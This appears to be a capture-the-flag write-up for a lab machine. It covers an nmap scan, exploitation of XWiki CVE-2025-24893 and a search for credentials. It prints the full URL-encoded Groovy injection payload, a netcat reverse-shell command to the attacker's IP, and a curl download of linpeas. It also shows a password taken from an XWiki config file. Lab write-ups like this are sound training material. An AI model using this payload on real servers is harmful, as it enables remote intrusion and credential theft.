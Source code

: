 ## Init

The ip I am assigned is `10.10.11.80`. I do a `nmap` scan and find some ports open.
```                                      
┌──(truelyyours㉿kali)-[~/tryhackme/SimpleCTF]
└─$ nmap -sV -A 10.10.11.80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 02:42 EDT
Illegal character(s) in hostname -- replacing with '*'
Illegal character(s) in hostname -- replacing with '*'
Nmap scan report for editor.htb* (10.10.11.80)
Host is up (0.097s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-server-header: Jetty(10.0.20)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   85.81 ms 10.10.16.1
2   44.21 ms editor.htb* (10.10.11.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```
It looks like an HTTP service running on port 80 and an xwiki on port 8080. Here we can access some posts by a user named `Neal Bagwell` and we can access the user's page as well `http://10.10.11.80:8080/xwiki/bin/view/XWiki/neal`. Of course usually port 80 is open but we have Xwiki on port 8080 so I lookup for any CVEs on Xwiki. And we have [**CVE-2025-24893**](https://www.offsec.com/blog/cve-2025-24893/)!

## CVE Exploit
There does not exist any working Metasploit module yet, but we have [this GitHub link](https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py) that implements the exploit to achieve remote RCE. We can use this to spawn a shell locally and navigate the target system. 
```
┌──(truelyyours㉿kali)-[~/htb/editor]
└─$ python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.16.16 4444 -e /bin/bash'
[*] Attacking http://10.10.11.80:8080
[*] Injecting the payload:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.16.16%204444%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

![[Pasted image 20250810030501.png]]

This shell is not that beautiful so I just do `python3 -c 'import pty; pty.spawn("/bin/bash")'` so have a better shell. Yaaye!

I start by installing `linpeas.sh` on the remote host and run it. I installed `linpeas.sh` by exposing a `http.server` locally and then simply `curl -LO 10.10.16.16:8000/linpeas.sh`.
While this outputs many things, I was not able to find anything directly here. Sad.

Instead I noticed that within `/home` there is folder for username `oliver`. So, I tried finding a password. I had to do manual lookups and found a password for `xwiki` that looks interesting in file `/etc/xwiki/hibernate.cfg.xml`.
![[Pasted image 20250811000901.png]]

So, I try to login to `oliver` via `ssh` and success! Now we can get the user flag.
## Linear Privilege Escalation

User **oliver** does not have any sudo perimissions. So I explore the system a little bit. Interesting findings for the ports u see.
``


